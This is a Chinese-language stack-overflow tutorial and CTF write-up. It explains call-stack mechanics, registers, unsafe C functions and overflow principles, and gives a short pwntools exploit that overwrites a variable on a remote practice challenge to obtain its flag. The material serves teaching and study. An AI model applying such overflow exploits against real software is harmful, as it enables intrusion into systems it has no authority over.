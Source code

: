 # 栈溢出从入门到入狱



* #### 函数调用栈

  * #####  栈与系统栈

    * 栈

      栈是一种特殊的线性表，仅能在线性表的一端操作，栈顶允许操作，栈底不允许操作，先进后出。栈顶放入元素的操作称为入栈，取出元素称为出栈。 

    * 系统栈

      内存中的栈，由系统自动维护，用于实现高级语言中的函数调用。 

      程序的栈是从进程地址空间的高地址向低地址增长的，高地址是栈底，低地址是栈顶

  * ##### 寄存器与栈帧

    * ESP：栈指针寄存器，其内存中是一个指针，该指针永远指系统栈最上面的一个栈帧的栈顶。 
    * EBP：基址指针寄存器，其内存中是一个指针，该指针永远指向系统栈最上面的要给栈帧的底部。 
    * EIP：指令寄存器，其内存中是一个指针，该指针永远指向下一条等待执行的指令地址。 

  * ##### 函数调用过程

    1. 参数入栈：将参数从右向左依次压入系统栈

    2. 返回地址入栈：将当前代码区调用的下一条指令地址压入栈中，供函数返回时继续执行。 

    3. 代码区跳转：处理器从当前代码区跳到被执行函数入口。 

    4. 栈帧调整：

       1. 保存当前栈帧状态，以备后面恢复本栈帧使用（push %ebp）
       2. 将当前栈帧切换到新的栈帧（mov %esp, %ebp）
       3. 给新栈帧分配空间（%esp减去所需空间大小，抬高栈顶） 

    5. 参数值放入内存

    6. 保存返回值（通常保存在%eax中）

    7. 降低栈顶，回收当前栈帧的空间（mov %ebp, %esp）

    8. 之前保存的ebp弹入%ebp（pop %ebp），恢复上一个栈帧

    9. 返回地址弹入%eip（ret）

       ![1](C:\Users\wdbbw\Desktop\1.jpg)

       

  * ##### 栈溢出原理

    程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变 

    * ###### 前提

      1. 程序必须向栈上写入数据。
      2. 写入的数据大小没有被良好地控制。

    * ###### 基本操作

      通过覆盖地址的方法来直接或者间接地控制程序执行流程。

      1. 寻找危险函数

         * 输入
           * gets，直接读取一行，忽略'\x00'
           * scanf
           * vscanf（将格式化数据读入可变参数列表）
         * 输出 
           * sprintf（把格式化的数据写入某个字符串中）
         * 字符串 
           * strcpy，字符串复制，遇到'\x00'停止
           * strcat，字符串拼接，遇到'\x00'停止
           * bcopy

      2. 确定填充长度 

         计算要操作的地址与要覆盖的地址的距离

    * ###### 覆盖栈上某个变量的内容

      **CGCTF-When did you born？**

      ![3](C:\Users\wdbbw\Desktop\3.png)

      没有开启PIE

      ![2](C:\Users\wdbbw\Desktop\2.png)

      v5 = 1926可以得到flag，但输入v5后有一个判断，不能直接输入1926

      v5 != 1926，进入else，在输入v4时可以利用缓冲区溢出把v5的值修改为1926

      可以看出v5和v4的距离是8个字节，gets(&v4)时输入8字节的数据和1926就可以把v5修改为1926

      ```python
      from pwn import *
      r = remote("ctf.acdxvfsvd.net",1926)
      payload='a'*8 + p32(1926)
      r.recvuntil("What\'s Your Birth?\n")
      r.sendline("1234")
      r.recvuntil("What\'s Your Name?\n")
      r.sendline(payload)
      r.interactive()
      
      #flag{gets_is_dangerous_+1s}
      ```

      

    * ##### 覆盖函数返回地址调用函数

      [**CSAPP-Buffer Lab**](https://aidaip.github.io/example/2019-02-07-CSAPP-Buffer-Lab/)

      

    * ##### 

      

      **CGCTF-Stack Overflow**

      ![6](C:\Users\wdbbw\Desktop\6.png)

      ![4](C:\Users\wdbbw\Desktop\4.png)

      ![5](C:\Users\wdbbw\Desktop\5.png)

      

    * 